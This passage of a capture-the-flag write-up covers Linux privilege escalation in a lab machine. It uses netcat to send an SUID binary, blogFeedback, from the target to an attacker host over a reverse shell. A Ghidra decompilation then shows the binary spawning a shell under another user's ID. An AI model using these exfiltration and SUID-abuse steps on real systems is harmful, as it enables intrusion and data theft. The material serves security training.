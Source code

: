 * From the output of 'linpeas.sh', everything seems usual. However, under interesting files section, for the files with SUID bit set, we have an app ```/usr/bin/blogFeedback```:

  ```sh
  ls -la /usr/bin/blogFeedback
  # this is written by user bobloblaw

  /usr/bin/blogFeedback
  # this just prints 'Order my blogs!'

  # we can inspect this binary further
  # transfer to attacker machine

  # on attacker machine
  nc -nvlp 5555 > blogFeedback

  # in reverse shell
  /bin/nc 10.10.67.222 5555 -w 3 < /usr/bin/blogFeedback

  # in attacker machine
  file blogFeedback
  # ELF 64-bit LSB
  
  # launch ghidra for further analysis
  ghidra
  ```

* In ```ghidra```, when we view the ```main``` function (Symbol Tree > Functions > main), we get the following code:

  ```c
  undefined8 main(int param_1,long param_2)

  {
    int iVar1;
    int local_c;
    
    if ((param_1 < 7) || (7 < param_1)) {
      puts("Order my blogs!");
    }
    else {
      local_c = 1;
      while (local_c < 7) {
        iVar1 = atoi(*(char **)(param_2 + (long)local_c * 8));
        if (iVar1 != 7 - local_c) {
          puts("Hmm... I disagree!");
          return 0;
        }
        local_c = local_c + 1;
      }
      puts("Now that, I can get behind!");
      setreuid(1000,1000);
      system("/bin/sh");
    }
    return 0;
  }
  ```
